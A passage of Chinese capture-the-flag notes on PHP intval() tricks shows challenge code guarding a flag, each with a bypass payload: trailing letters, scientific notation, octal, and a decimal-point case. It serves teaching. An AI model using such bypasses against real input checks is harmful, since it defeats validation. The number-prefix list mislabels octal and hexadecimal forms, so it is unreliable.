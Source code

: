 payload：

```bash
num=4476a
```

##### 科学计数法

intval() int 函数如果base为0，则var中存在字母的话遇到字母就停止读取，但遇到e，会表示科学计数法

```php
if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }
123456
```

payload：

```bash
num=4476e1
```

##### 进制转换

0bxx：二进制

0xxx：八进制

0Xxx：十六进制

```
if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }
```

payload：

```bash
num=010574   //八进制，php会自动识别进制
```

##### 小数点绕过

```
if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }

```
